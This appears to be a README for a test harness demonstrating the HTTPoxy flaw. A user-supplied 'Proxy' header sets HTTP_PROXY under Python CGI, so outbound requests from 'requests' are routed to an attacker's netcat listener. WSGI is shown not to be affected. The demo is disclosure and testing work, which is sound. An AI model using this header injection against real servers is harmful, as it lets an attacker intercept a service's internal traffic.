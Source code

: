 # Python HTTPoxy Vulnerability under CGI

Python is not usually deployed under CGI. But there are guides that provide for CGI as a deployment
mechanism of last resort.

When using something like wsgiref.handlers.CGIHandler, the os.environ map is polluted by CGI values,
including HTTP_PROXY.

Run `./build` to get started

There are two test cases:

* cgi (vulnerable), and
* wsgi (not vulnerable)

## Example run

### cgi

```
Testing: cgi/apache...
Testing done.


Here's the curl output from the curl client
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    59  100    59    0     0     76      0 --:--:-- --:--:-- --:--:--    76
A server error occurred.  Please contact the administrator.

Tests finished. Result time...
Here is the output from the cgi program and apache logs:
./build: line 78:  3067 Terminated              nc -v -l 12345 > ./cgi-mallory.log 2>&1
==> /var/log/apache2/access.log <==
172.17.0.1 - - [02/Jul/2016:08:18:11 +0000] "GET /httpoxy HTTP/1.1" 500 246 "-" "curl/7.35.0"

==> /var/log/apache2/error.log <==
    return request('get', url, **kwargs)
  File "/usr/lib/python2.7/dist-packages/requests/api.py", line 49, in request
    return session.request(method=method, url=url, **kwargs)
  File "/usr/lib/python2.7/dist-packages/requests/sessions.py", line 457, in request
    resp = self.send(prep, **send_kwargs)
  File "/usr/lib/python2.7/dist-packages/requests/sessions.py", line 569, in send
    r = adapter.send(request, **kwargs)
  File "/usr/lib/python2.7/dist-packages/requests/adapters.py", line 407, in send
    raise ConnectionError(err, request=request)
ConnectionError: ('Connection aborted.', BadStatusLine("''",))

==> /var/log/apache2/other_vhosts_access.log <==


And here is what the attacker got (any output other than a listening line here means trouble)
Listening on [0.0.0.0] (family 0, port 12345)
Connection from [172.17.0.3] port 12345 [tcp/*] accepted (family 2, sport 44423)
GET http://example.com/ HTTP/1.1
Host: example.com
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.4.3 CPython/2.7.9 Linux/3.13.0-85-generic

end of trouble
```

### wsgi

```
Testing: wsgi/apache
Testing done.


Here's the curl output from the curl client
* Hostname was NOT found in DNS cache
*   Trying 127.0.0.1...
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to 127.0.0.1 (127.0.0.1) port 2083 (#0)
> GET / HTTP/1.1
> User-Agent: curl/7.35.0
> Host: 127.0.0.1:2083
> Accept: */*
> Proxy: 172.17.0.1:12345
>
< HTTP/1.1 200 OK
< Date: Sat, 02 Jul 2016 07:05:14 GMT
* Server Apache is not blacklisted
< Server: Apache
< Content-Length: 1485
< Connection: close
< Content-Type: text/plain
<
{ [data not shown]
100  1485  100  1485    0     0   3578      0 --:--:-- --:--:-- --:--:--  3586
* Closing connection 0

    Made internal subrequest to http://example.com/ and got:
      os.environ[HTTP_PROXY]: none
      os.getenv('HTTP_PROXY'): none
      wsgi Proxy header: 172.17.0.1:12345
      status code: 200
      text: <!doctype html>
<html>
<head>
    <title>Example Domain</title>

    <meta charset="utf-8" />
    <meta http-equiv="Content-type" content="text/html; charset=utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <style type="text/css">
    body {
        background-color: #f0f0f2;
        margin: 0;
        padding: 0;
        font-family: "Open Sans", "Helvetica Neue", Helvetica, Arial, sans-serif;

    }
    div {
        width: 600px;
        margin: 5em auto;
        padding: 50px;
        background-color: #fff;
        border-radius: 1em;
    }
    a:link, a:visited {
        color: #38488f;
        text-decoration: none;
    }
    @media (max-width: 700px) {
        body {
            background-color: #fff;
        }
        div {
            width: auto;
            margin: 0 auto;
            border-radius: 0;
            padding: 1em;
        }
    }
    </style>
</head>

<body>
<div>
    <h1>Example Domain</h1>
    <p>This domain is established to be used for illustrative examples in documents. You may use this
    domain in examples without prior coordination or asking for permission.</p>
    <p><a href="http://www.iana.org/domains/example">More information...</a></p>
</div>
</body>
</html>



Tests finished. Result time...
Here is the nginx logs (containing output from the wsgi program)
./build: line 56: 26424 Terminated              nc -v -l 12345 > ./wsgi-mallory.log 2>&1
[Sat Jul 02 07:05:09.264581 2016] [mpm_event:notice] [pid 15:tid 139675532297984] AH00489: Apache/2.4.20 (Unix) mod_wsgi/4.5.2 Python/3.5.1 configured -- resuming normal operations
[Sat Jul 02 07:05:09.264934 2016] [core:notice] [pid 15:tid 139675532297984] AH00094: Command line: 'httpd (mod_wsgi-express) -f /tmp/mod_wsgi-localhost:80:0/httpd.conf -E /dev/stderr -D MOD_WSGI_MPM_ENABLE_EVENT_MODULE -D MOD_WSGI_MPM_EXISTS_EVENT_MODULE -D MOD_WSGI_MPM_EXISTS_WORKER_MODULE -D MOD_WSGI_MPM_EXISTS_PREFORK_MODULE -D FOREGROUND'


And here is what the attacker got (any output other than a listening line here means trouble)
Listening on [0.0.0.0] (family 0, port 12345)
end of trouble
```

## Results

### wsgi not vulnerable

Because the user-supplied values are kept in a separate wsgi 'environ' map, wsgi is not
vulnerable. `os.environ['HTTP_PROXY']` remains unchanged when a `Proxy: foo` header is sent.

### cgi vulnerable

When using the `CGIHandler` in `wsgiref.handlers`, and deploying your application with a standard
CGI server, os.environ['HTTP_PROXY'] is a user-controlled value, and should not be trusted.

requests trusts this value, and configures it as the proxy. The internal request to example.com ends up
proxied at an address of the attacker's choosing.
